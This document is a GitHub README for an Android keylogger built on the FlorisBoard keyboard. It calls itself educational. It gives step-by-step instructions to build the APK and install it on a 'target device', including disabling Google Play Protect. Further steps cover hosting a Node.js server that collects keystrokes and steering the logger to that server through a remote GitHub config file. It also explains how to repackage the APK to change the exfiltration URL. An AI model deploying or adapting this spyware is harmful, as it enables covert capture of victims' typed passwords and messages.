

```markdown
# Android Keylogger


Educational Android keyboard keylogger based on FlorisBoard. It captures keystrokes from a custom keyboard and sends them to a Node.js server. This project is for research and security training only.

## Features


- Custom keyboard keylogging without Accessibility
- Dynamic server URL from GitHub config fallback
- Batched keypress sending for realtime capture
- Live dashboard with reconstructed lines and device filter
- Supports Android 8+ and multiple ABIs
- No Google Play dependencies required

## Installation



### Build from source

Required tools:

- Ubuntu 22.04 or newer
- Java 17
- Android SDK platform 34 and build-tools 34
- Android NDK 29.0.14206865
- CMake 4.1.2
- Rust toolchain with Android targets
- Python 3

Install Java:

```bash
sudo apt update
sudo apt install openjdk-17-jdk -y
java -version
```

Install Android SDK command line tools:

```bash
mkdir -p ~/android-sdk
cd ~/android-sdk
wget https://dl.google.com/android/repository/commandlinetools-linux-11076708_latest.zip
unzip commandlinetools-linux-*.zip
mkdir -p cmdline-tools
mv cmdline-tools cmdline-tools/latest
export ANDROID_HOME=$HOME/android-sdk
export PATH=$PATH:$ANDROID_HOME/cmdline-tools/latest/bin:$ANDROID_HOME/platform-tools
```

Install SDK packages:

```bash
yes | sdkmanager --licenses
sdkmanager "platform-tools" "platforms;android-34" "build-tools;34.0.0"
```

Install NDK and CMake:

```bash
sdkmanager "ndk;29.0.14206865" "cmake;4.1.2"
```

Install Rust:

```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh -s -- -y
source "$HOME/.cargo/env"
rustup target add aarch64-linux-android armv7-linux-androideabi i686-linux-android x86_64-linux-android
```

Clone the repository:

```bash
git clone https://github.com/warsecurity/Akeylogger.git
cd Akeylogger
unzip florisboard_source.zip -d florisboard
cd florisboard
```

Build the APK:

```bash
./gradlew assembleDebug
```

The APK will be generated at:

```
app/build/outputs/apk/debug/app-debug.apk
```

Install on target device

1. Disable Play Protect in Settings > Google > Security > Google Play Protect
2. Install the APK
3. Disable Gboard or any other keyboard if needed
4. Enable the installed keyboard
5. Allow all requested keyboard permissions
6. Open any app and start typing

Usage

4.jpg

Run the server

Deploy the server on Render or a VPS:

```bash
git clone https://github.com/warsecurity/Akeylogger.git
cd Akeylogger
npm install
node server.js
```

For Render:

· Create a new Web Service
· Build command: npm install
· Start command: node server.js
· Copy the public URL, for example:

```
https://your-server.onrender.com
```

Configure the APK to use your server

The APK fetches a remote config file from GitHub every 40 seconds. Create a public GitHub repo and add a file named config.json.

Example repo:

```
warsecurity/basee
```

Example config.json:

```json
{
  "baseUrl": "https://your-server.onrender.com/log",
  "maintenance": false,
  "message": "Service is temporarily unavailable. Please try again later.",
  "minVersion": "1.0"
}
```

Use this raw URL format:

```
https://raw.githubusercontent.com/<username>/<repo>/main/config.json
```

Replace <username> and <repo> with your own values.

Configuration

Add your config URL to the APK

Modify the source file:

```
app/src/main/kotlin/dev/patrickgold/florisboard/ime/logging/Keylogger.kt
```

Find:

```kotlin
private const val CONFIG_URL = "https://raw.githubusercontent.com/warsecurity/basee/main/config.json"
```

Replace it with your own raw GitHub URL and rebuild:

```bash
./gradlew assembleDebug
```

Decompile with APK Editor

1. Install APK Editor Pro
2. Open the APK and choose Full Edit
3. Search for config.json or raw.githubusercontent.com
4. Replace the URL with your own
5. Save and rebuild

Tech Stack

· Kotlin
· Android IME service
· Node.js
· Express
· Socket.IO
· Rust native libraries
· Gradle

Project Structure

```
Akeylogger/
├── florisboard_source.zip
├── server.js
├── package.json
├── public/
│   └── index.html
├── 1.jpg
├── 2.jpg
├── 3.jpg
├── 4.jpg
└── README.md
```

Disclaimer

This project is for educational and research purposes only. The developers are not responsible for any illegal use or distribution. Always obtain explicit permission before testing on any device you do not own.


GitHub: https://github.com/warsecurity

```
